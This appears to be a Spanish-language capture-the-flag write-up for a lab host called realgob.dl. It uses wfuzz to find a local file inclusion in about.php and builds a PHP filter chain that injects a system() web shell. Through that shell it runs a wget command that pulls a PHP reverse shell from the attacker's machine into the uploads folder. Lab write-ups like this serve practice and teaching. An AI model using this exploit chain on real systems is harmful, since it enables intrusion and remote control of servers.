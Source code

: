    ```bash


```

# EXPLOTACION 1

Al revisar el **about.php** utilizando **wfuzz** :

```bash
wfuzz -u "http://realgob.dl/about.php?FUZZ=/etc/hosts" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  --hl=98
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://realgob.dl/about.php?FUZZ=/etc/hosts
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000741:   200        105 L    389 W      5093 Ch     "file"                                                                                                                   

Total time: 0
Processed Requests: 207643
Filtered Requests: 207642
Requests/sec.: 0

```

Vemos que es vulnerable a un **LFI**.

El **info.php** no debería ser visible, revela mucha info sensible y mucho menos el directorio **uploads**. Vemos en el info.php que hay un **file_upload = on**.

Nos descargamos [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) , ya que podremos colar comandos usándola.

```bash
./php_filter_chain_generator.py   --chain  '<?php system($_GET["cmd"]);?>'

http://realgob.dl/about.php?file=<PHP CHAIN>&cmd= cd uploads; wget http://172.17.0.1:8000/wp.php

```

Tras ver que no tiene curl ( which curl ), que si tiene wget ( which wget ) y que podemos escribir en uploads ( ls -l ) y podemos verlo desde la web para que lo interprete. Nos movemos a uploads y nos bajamos una reverse shell en php, mientras nos ponemos en escucha en el puerto 443: 

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


   ```